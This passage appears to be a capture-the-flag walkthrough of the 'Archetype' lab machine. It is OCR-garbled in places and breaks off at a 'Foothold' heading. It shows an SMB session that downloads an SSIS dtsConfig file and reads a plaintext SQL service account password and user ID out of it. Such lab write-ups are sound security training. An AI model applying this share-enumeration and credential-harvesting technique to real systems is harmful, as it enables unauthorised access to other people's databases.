 ``` shell
  smb: \\>

  --------------------------------------------------------
```
There is a dtsConfig file, which is a config file used with SSIS. Let’s
see the code
``` shell
  -------------------------------------------------------------------------------------------------------------
  smb: \\> get prod.dtsConfig
  
  getting file \\prod.dtsConfig of size 609 as prod.dtsConfig (3.5 KiloBytes/sec) (average 3.5 KiloBytes/sec)
  
  smb: \\>

  -------------------------------------------------------------------------------------------------------------
```
Checking the file we see:

- The password: **M3g4c0rp123**

- The user ID : **ARCHETYPE\\sql\_svc**
``` shell
  -------------------------------------------------------------------------------------------------------------------------------
  **more prod.dtsConfig **
  
  <DTSConfiguration>
  
  <DTSConfigurationHeading>
  
  <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." G
  
  eneratedDate="20.1.2019 10:01:34"/>
  
  </DTSConfigurationHeading>
  
  <Configuration ConfiguredType="Property" Path="\\Package.Connections\[Destination\].Properties\[ConnectionString\]
  
  " ValueType="String">
  
  <ConfiguredValue>Data Source=.;*Password=***M3g4c0rp123**;*User ID=***ARCHETYPE\\sql\_svc;**Initial Catalog=Catalog;Pro
  
  vider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
  
  </Configuration>
  
  </DTSConfiguration>

  -------------------------------------------------------------------------------------------------------------------------------
```
### &#9676; Foothold
==========
